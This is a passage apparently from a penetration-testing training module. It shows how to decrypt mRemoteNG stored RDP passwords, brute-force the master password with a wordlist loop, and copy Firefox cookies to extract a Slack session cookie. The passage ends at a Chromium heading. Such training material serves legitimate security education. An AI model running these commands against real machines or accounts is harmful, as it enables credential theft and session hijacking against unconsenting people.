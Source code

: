 Let's look at the contents of the `confCons.xml` file.

```xml
<?XML version="1.0" encoding="utf-8"?>
<mrng:Connections xmlns:mrng="http://mremoteng.org" Name="Connections" Export="false" EncryptionEngine="AES" BlockCipherMode="GCM" KdfIterations="1000" FullFileEncryption="false" Protected="QcMB21irFadMtSQvX5ONMEh7X+TSqRX3uXO5DKShwpWEgzQ2YBWgD/uQ86zbtNC65Kbu3LKEdedcgDNO6N41Srqe" ConfVersion="2.6">
    <Node Name="RDP_Domain" Type="Connection" Descr="" Icon="mRemoteNG" Panel="General" Id="096332c1-f405-4e1e-90e0-fd2a170beeb5" Username="administrator" Domain="test.local" Password="sPp6b6Tr2iyXIdD/KFNGEWzzUyU84ytR95psoHZAFOcvc8LGklo+XlJ+n+KrpZXUTs2rgkml0V9u8NEBMcQ6UnuOdkerig==" Hostname="10.0.0.10" Protocol="RDP" PuttySession="Default Settings" Port="3389"
    ..SNIP..
</Connections>
```


If the user didn't set a custom master password, we can use the script [mRemoteNG-Decrypt](https://github.com/haseebT/mRemoteNG-Decrypt) to decrypt the password. We need to copy the attribute `Password` content and use it with the option `-s`. If there's a master password and we know it, we can then use the option `-p` with the custom master password to also decrypt the password.

```shell-session
PrinceAli1@htb[/htb]$ python3 mremoteng_decrypt.py -s "sPp6b6Tr2iyXIdD/KFNGEWzzUyU84ytR95psoHZAFOcvc8LGklo+XlJ+n+KrpZXUTs2rgkml0V9u8NEBMcQ6UnuOdkerig==" 
```

In case we want to attempt to crack the password, we can modify the script to try multiple master passwords from a file, or we can create a Bash `for loop`. We can attempt to crack the `Protected` attribute or the `Password` itself. If we try to crack the `Protected` attribute once we find the correct password, the result will be `Password: ThisIsProtected`. If we try to crack the `Password` directly, the result will be `Password: <PASSWORD>`.

```shell-session
PrinceAli1@htb[/htb]$ for password in $(cat /usr/share/wordlists/fasttrack.txt);do echo $password; python3 mremoteng_decrypt.py -s "EBHmUA3DqM3sHushZtOyanmMowr/M/hd8KnC3rUJfYrJmwSj+uGSQWvUWZEQt6wTkUqthXrf2n8AR477ecJi5Y0E/kiakA==" -p $password 2>/dev/null;done    
```

#### Abusing Cookies to Get Access to IM Clients

##### Cookie Extraction from Firefox

Firefox saves the cookies in an SQLite database in a file named `cookies.sqlite`. This file is in each user's APPDATA directory `%APPDATA%\Mozilla\Firefox\Profiles\<RANDOM>.default-release`. There's a piece of the file that is random, and we can use a wildcard in PowerShell to copy the file content.

```powershell
PS C:\htb> copy $env:APPDATA\Mozilla\Firefox\Profiles\*.default-release\cookies.sqlite .
```

```shell-session
PrinceAli1@htb[/htb]$ python3 cookieextractor.py --dbpath "/home/plaintext/cookies.sqlite" --host slack --cookie d
```

##### Cookie Extraction from Chromium-based Browsers
